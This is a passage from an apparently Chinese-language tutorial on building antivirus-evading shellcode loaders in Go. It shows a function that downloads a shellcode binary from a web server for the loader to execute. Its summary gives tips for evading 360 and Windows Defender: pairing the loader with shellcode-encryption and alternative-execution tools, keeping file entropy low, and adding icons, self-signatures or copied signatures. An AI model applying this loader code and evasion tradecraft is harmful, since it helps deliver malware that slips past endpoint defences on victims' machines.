[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003608-7fc2a8fe-c37b-1.gif)

## 远程存储

需要将文件存储到远程服务器，以 python -m http.server 80 来举例  
首先引入库、增加函数

```plain
"github.com/valyala/fasthttp"


func fetchShellcode() []byte {

    url := "http://localhost/test.bin"

    _, body, _ := fasthttp.Get(nil, url)

    return body
}
```

最后将 Shellcode 处改为函数调用

```plain
shellcode := fetchShellcode()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003616-84395e14-c37b-1.gif)

缺点是会发起一次请求，生成的文件较大

# 总结

有了对免杀理论的了解，配合 [https://github.com/yutianqaq/Supernova\_CN](https://github.com/yutianqaq/Supernova_CN) 与 [https://github.com/xiecat/AlternativeShellcodeExec-Go](https://github.com/xiecat/AlternativeShellcodeExec-Go) 中的不同载入方式，就可以实现免杀（x60、wd 等等一些常见的杀软）。  
在制作免杀加载器时候还需要注意熵值，通过合理的转换 Shellcode，尽量将最终程序的熵值限制在合法范围内。使用 [https://github.com/yutianqaq/EntropyCalc\_Go](https://github.com/yutianqaq/EntropyCalc_Go) 可以观察各个节熵值变化（能控制的大头是 数据节和资源节）。可以添加图标、详细信息、自签名、复制签名等方式规避杀软。  
总之，规避杀软需要将程序行为合法（静态、动态、流量等方面）

# 参考

[https://practicalsecurityanalytics.com/file-entropy/](https://practicalsecurityanalytics.com/file-entropy/)  
[nickvourd/Supernova: Real fucking shellcode encryption tool](https://github.com/nickvourd/Supernova)  
[https://github.com/xiecat/AlternativeShellcodeExec-Go](https://github.com/xiecat/AlternativeShellcodeExec-Go)  
[https://blog.csdn.net/xukun5137/article/details/93518683](https://blog.csdn.net/xukun5137/article/details/93518683)
